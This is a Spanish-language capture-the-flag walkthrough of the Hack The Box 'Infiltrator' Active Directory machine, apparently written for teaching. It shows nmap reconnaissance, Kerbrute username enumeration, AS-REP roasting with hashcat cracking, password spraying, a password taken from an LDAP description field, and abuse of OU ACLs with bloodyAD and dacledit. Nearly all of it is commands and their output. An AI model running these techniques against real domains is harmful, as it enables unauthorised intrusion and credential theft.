

# Infiltrator


<figure><figcaption></figcaption></figure>

## Reconnossaince

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Infiltrator**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.31 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-17 16:04 CET
Nmap scan report for 10.10.11.31
Host is up (0.055s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
15220/tcp open  unknown
49666/tcp open  unknown
49688/tcp open  unknown
49690/tcp open  unknown
49692/tcp open  unknown
49723/tcp open  unknown
49740/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 188.34 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.31
	[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,15220,49666,49688,49690,49692,49723,49740

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. Verificamos a través del resultado obtenido de que la máquina se trata de un Domain Controller (DC) por los puertos y servicios que se encuentran expuestos.

```bash
❯ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,15220,49666,49688,49690,49692,49723,49740 10.10.11.31 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-17 17:56 CET
Nmap scan report for dc01.infiltrator.htb (10.10.11.31)
Host is up (0.067s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Infiltrator.htb
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-17 16:56:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-17T16:59:39+00:00; -9s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-17T16:59:39+00:00; -9s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-17T16:59:39+00:00; -9s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2025-01-17T16:59:39+00:00; -9s from scanner time.
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-17T16:59:39+00:00; -9s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-17T16:58:59+00:00
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2025-01-16T14:59:08
|_Not valid after:  2025-07-18T14:59:08
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
15220/tcp open  unknown
49666/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
49740/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-17T16:59:02
|_  start_date: N/A
|_clock-skew: mean: -8s, deviation: 0s, median: -9s

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   85.41 ms 10.10.16.1
2   85.45 ms dc01.infiltrator.htb (10.10.11.31)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 206.88 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `netexec` y `ldapsearch` procederemos a enumerar el equipo para localizar más información. Entre la información obtenida, verificamos el `hostname`, versión del SO y el nombre del dominio.

```bash
❯ nxc smb 10.10.11.31
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)

❯ ldapsearch -x -H ldap://10.10.11.31 -s base | grep defaultNamingContext
defaultNamingContext: DC=infiltrator,DC=htb
```

Procederemos a añadir en nuestro archivo `/etc/hosts` las entradas correspondientes para que a la hora de hacer referencia al dominio o el equipo nos responda correctamente a la dirección IP del equipo.

```bash
❯ cat /etc/hosts | grep 10.10.11.31
10.10.11.31 dc01.infiltrator.htb infiltrator.htb
```

Por otro lado, para trabajar con el protocolo de Kerberos y no tener problemas durante la explotación de la máquina, deberemos de sincronizar nuestro reloj con la del Domain Controller.

Además, deberemos de informar en el archivo `/etc/resolv.conf` la dirección IP del DC para no tener problemas posteriormente.

```bash
❯ sudo ntpdate -s 10.10.11.31

❯ cat /etc/resolv.con| grep 10.10.11.31
nameserver 10.10.11.31

❯ sudo systemctl restart NetworkManager
```

## Web Enumeration

Nuestro primer objetivo será la página web de [http://infiltrator.htb](http://infiltrator.htb), en la cual a simple vista no vemos ningún dato interesante que nos pueda servir.&#x20;

<figure><figcaption></figcaption></figure>

### Information Leakage

Revisando en el apartado de `About`, verificamos que aparecen nombres de los empleados. Esta información nos puede servir.

<figure><figcaption></figcaption></figure>

Guardaremos los nombres completos de los empleados que aparecían en la página. A través del script de `namenash.py` procederemos a crear un listado de usuarios a través del listado de empleados que disponemos.



```bash
❯ wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
--2025-01-17 18:42:27--  https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Resolviendo gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.109.133, ...
Conectando con gist.githubusercontent.com (gist.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2086 (2,0K) [text/plain]
Grabando a: «namemash.py»

namemash.py                                               100%[===================================================================================================================================>]   2,04K  --.-KB/s    en 0s      

2025-01-17 18:42:28 (34,3 MB/s) - «namemash.py» guardado [2086/2086]

❯ cat employees.txt
david anderson
olivia martinez
kevin turner
amanda walker
marcus harris
lauren clark
ethan rodriguez

❯ chmod +x namemash.py

❯ ./namemash.py employees.txt > possible_users.txt
```

A través de la herramienta de `Kerbrute`, enumeraremos el listado de usuarios que nos ha generado el script anterior. En el resultado obtenido, verificamos que de los 78 usuarios posibles que teníamos, solamente 7 usuarios son válidos a nivel de dominio.

```bash
❯ kerbrute userenum --dc 10.10.11.31 -d infiltrator.htb possible_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/17/25 - Ronnie Flathers @ropnop

2025/01/17 18:44:37 >  Using KDC(s):
2025/01/17 18:44:37 >  	10.10.11.31:88

2025/01/17 18:44:37 >  [+] VALID USERNAME:	d.anderson@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	o.martinez@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	k.turner@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	a.walker@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	m.harris@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	e.rodriguez@infiltrator.htb
2025/01/17 18:47:44 >  [+] VALID USERNAME:	l.clark@infiltrator.htb
2025/01/17 18:44:37 >  Done! Tested 78 usernames (7 valid) in 0.872 seconds
```

Procederemos a guardarnos los usuarios válidos del dominio en el archivo `users.txt`.

```bash
❯ cat users.txt
2025/01/17 18:44:37 >  [+] VALID USERNAME:	d.anderson@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	o.martinez@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	k.turner@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	a.walker@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	m.harris@infiltrator.htb
2025/01/17 18:44:37 >  [+] VALID USERNAME:	e.rodriguez@infiltrator.htb
2025/01/17 18:47:44 >  [+] VALID USERNAME:	l.clark@infiltrator.htb
❯ cat users.txt | awk '{print $NF}' | awk '{print $1}' FS='@'
d.anderson
o.martinez
k.turner
a.walker
m.harris
e.rodriguez
l.clark
❯ cat users.txt | awk '{print $NF}' | awk '{print $1}' FS='@' | sponge users.txt
```

## AS-REP Roast Attack (GetNPUsers)

Dado que disponemos de un listado potencial de usuarios, realizaremos el ataque de _**AS-REP Roast Attack**_. Al realizar el ataque revisará si alguno de los usuarios que disponemos dispone de la flag (_DONT\_REQ\_PREAUTH_) de Kerberos, para así obtener un hash TGT (Ticket Granting Ticket) que posteriormente podremos intentar crackear.

En este caso, verificamos que hemos logrado obtener el hash TGT del usuario `l.clark@infiltrator.htb`, este hash lo almacenaremos en un archivo.

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt infiltrator.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB:76890a639a822a2a5f2aca12844f246d$0bf760af3d8cfce1b276ff32c9da558ca0073da317e52f22b343d7284af86d21abc939d1332f83eb6bd8c327e5bdf96c737468840ab0cfc87bf95201887f8d8c6c1bce285a08bd060ed9fc4d16192970262eb3216ada25bfc293f599e8af46d2ddc83774da32f0487b45e09648de0c23b7dd8643568245b6fbbc72686d036e432571e7862b934b74a7acb895572dc539401235856869f8fdd87066be370d5ef2184cf2f4c85b9783853445778fdce0d07d938c86e0d633516a394eba4858afda625102b5c35134904ac34ab978bfed656ba6a15830a011d4e151b2d32b1d215b0d94beb2180a8cc237581de7967a423fef8e
```

Intentaremos crackear el hash obtenido a través de la herramienta `hashcat`, en este caso, logramos obtener la contraseña en texto plano del usuario `l.clark@infiltrator.htb`.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

...[snip]...

$krb5asrep$23$l.clark@INFILTRATOR.HTB:76890a639a822a2a5f2aca12844f246d$0bf760af3d8cfce1b276ff32c9da558ca0073da317e52f22b343d7284af86d21abc939d1332f83eb6bd8c327e5bdf96c737468840ab0cfc87bf95201887f8d8c6c1bce285a08bd060ed9fc4d16192970262eb3216ada25bfc293f599e8af46d2ddc83774da32f0487b45e09648de0c23b7dd8643568245b6fbbc72686d036e432571e7862b934b74a7acb895572dc539401235856869f8fdd87066be370d5ef2184cf2f4c85b9783853445778fdce0d07d938c86e0d633516a394eba4858afda625102b5c35134904ac34ab978bfed656ba6a15830a011d4e151b2d32b1d215b0d94beb2180a8cc237581de7967a423fef8e:WAT?watismypass!
```

Verificaremos a través de la herramienta `nxc` de validar las credenciales obtenidas, comprobamos que son válidas para dicho usuario.&#x20;

```bash
❯ nxc smb 10.10.11.31 -u 'l.clark' -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

## LDAP Enumeration (ldapdomaindump)

Dado que disponemos de credenciales válidas, procederemos a realizar una enumeración de LDAP a través de la herramienta de `ldapdomaindump`.

```bash
❯ ldapdomaindump -u 'infiltrator.htb\l.clark' -p 'WAT?watismypass!' dc01.infiltrator.htb -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

❯ cd ldap

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Al revisar el archivo `domain_users`, verificamos el listado de usuarios del dominio. También notamos que el usuario `k.turner@infiltrator.htb` en su campo _**Description**_ aparece lo que parece ser una contraseña.

<figure><figcaption></figcaption></figure>

Probaremos de validar si esas credenciales encontradas en el LDAP son válidas para el usuario. Verificamos que no podemos autenticarnos con estas credenciales, alomejor nos pueden servir para más adelante...

```bash
❯ nxc smb 10.10.11.31 -u 'k.turner' -p 'MessengerApp@Pass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 
```

## NTLM is disabled? Testing Kerberos authentication

Al realizar un _**Password Spraying**_ de una de las credenciales que disponemos, verificamos que en dos cuentas nos aparece el mensaje de `STATUS_ACCOUNT_RESTRICTION`, lo cual nos llama bastante la atención.

```bash
❯ nxc smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!' --continue-on-success
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Al volver a ejecutar el mismo comando anterior pero indicando que se autentique mediante Kerberos y no NTLM, verificamos que las credenciales también son válidas para el usuario `d.anderson@infiltrator.htb`.

Esto nos lleva a la siguiente pregunta: _es posible que la autenticación NTLM esté deshabilitada para algunos usuarios, por ese motivo nos marca como_ `STATUS_ACCOUNT_RESTRICTION`.

```bash
❯ nxc smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!' --continue-on-success -k
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

Si realizamos nuevamente el _**Password Spraying**_ desde la herramienta de `Kerbrute`, verificamos que obtenemos el mismo resultado anterior.

```bash
❯ kerbrute passwordspray -d infiltrator.htb --dc dc01.infiltrator.htb users.txt 'WAT?watismypass!'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/17/25 - Ronnie Flathers @ropnop

2025/01/17 18:55:02 >  Using KDC(s):
2025/01/17 18:55:02 >  	dc01.infiltrator.htb:88

2025/01/17 18:55:02 >  [+] VALID LOGIN:	l.clark@infiltrator.htb:WAT?watismypass!
2025/01/17 18:55:02 >  [+] VALID LOGIN:	d.anderson@infiltrator.htb:WAT?watismypass!
2025/01/17 18:55:02 >  Done! Tested 7 logins (2 successes) in 0.343 seconds
```

Validaremos que con el usuario `d.anderson@infiltrator.htb` a través de autenticación NTLM no podemos autenticarnos, en cambio, a través de la autenticación de Kerberos si.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb dc01.infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
```

Procederemos a solicitar un TGT (Ticket Granting Ticket) para el usuario, para poder utilizarlo para autenticarnos con este usuario. El ticket obtenido `d.anderson.ccache` lo almacenaremos en la variable `KRB5CCNAME` y verificaremos a través de `klist -e` de que el ticket TGT está correctamente configurado.

```bash
❯ impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.anderson.ccache

❯ export KRB5CCNAME=$(pwd)/d.anderson.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/d.anderson.ccache
Default principal: d.anderson@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:17:44  18/01/25 01:17:44  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 01:17:44, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

## BloodHound Enumeration

A continuación, realizaremos una enumeración del dominio entero a través de `BloodHound`. El siguiente comando nos creará un archivo `.zip` el cual contendrá toda la información del dominio. Lo que buscamos en realizar esta enumeración es buscar posibles vectores de ataque para escalar nuestros privilegios.

En este caso hemos utilizado al usuario `d.anderson` y nos autenticamos mediante Kerberos `-k`, pero podríamos haber utilizado el usuario `l.clark` dado que esta usuaria se puede autenticar mediante NTLM.

```bash
❯ bloodhound-python -c All -ns 10.10.11.31 -u 'd.anderson' -p 'WAT?watismypass!' -k --auth-method kerberos -d infiltrator.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: infiltrator.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 15S
INFO: Compressing output into 20250117191838_bloodhound.zip
```

Revisando en `BloodHound`, verificamos que solamente el usuario `Administrator` es un `Domain Admin`.

<figure><figcaption></figcaption></figure>

Verificando posibles vías potenciales para escalar nuestros privilegios actuales, nos encontramos con el siguiente path que parece ser el más adecuado para llegar a conectarnos al Domain Controller.

<figure><figcaption></figcaption></figure>

## Initial Access

### Abuse of GenericAll privileges on an OU to gain full control of objects

Verificamos que el usuario que disponemos actualmente, dispone de privilegios `GenericAll` sobre la Organizational Unit (OU) llamada `MARKETING DIGITAL`.

Esto indica que tiene el control total sobre la OU, un privilegio peligroso debido que podemos tener el control total de esta OU y de los objetos que se encuentren en esta misma.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `bloodyAD` nos convertimos en propietarios de la OU y nos otorgamos permisos de `genericAll` para tener control de la OU y de los objetos que se encuentren en esta.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k set owner 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'd.anderson'
[+] Old owner S-1-5-21-2606098828-3734741516-3625406802-512 is now replaced by d.anderson on OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB

❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k add genericAll 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'd.anderson'
[+] d.anderson has now GenericAll on OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB
```

En un principio, deberíamos de disponer de control sobre los objetos que se encuentren en esta OU. Durante el proceso al tratar de modificar algún objeto que se encontraba en esta nos indicaba que no disponíamos de privilegios suficientes.

Realizando una búsqueda nos encontramos con el siguiente blog, el cual nos indica que para tener un control total sobre las Organizational Units (OUs) debíamos de modificar el siguiente DACL.

A través del primer comando, nos proporcionamos el control total de la OU y objetos que se encuentran en esta misma y mediante el segundo comando verificamos que el paso anterior se haya realizado  correctamente.



```bash
❯ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'d.anderson' -k -no-pass -dc-ip 10.10.11.31 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250117-212533.bak
[*] DACL modified successfully!

❯ impacket-dacledit -action 'read' -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'d.anderson' -k -no-pass -dc-ip 10.10.11.31 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-2606098828-3734741516-3625406802-1103)
[*]   ACE[6] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : D.anderson (S-1-5-21-2606098828-3734741516-3625406802-1103)
[*]   ACE[7] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, OBJECT_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : D.anderson (S-1-5-21-2606098828-3734741516-3625406802-1103)
```

Volviendo a revisar en el `BloodHound`, verificamos que en la OU `MARKETING DIGITAL` se encontraba el usuario `e.rodriguez@infiltrator.htb`.

Por lo tanto, dado que nos hemos otorgado el control total sobre la OU y los objetos secundarios, por ende, deberíamos de tener control total con el usuario `d.anderson@infiltrator.htb` sobre el usuario `e.rodriguez@infiltrator.htb`.

<figure><figcaption></figcaption></figure>

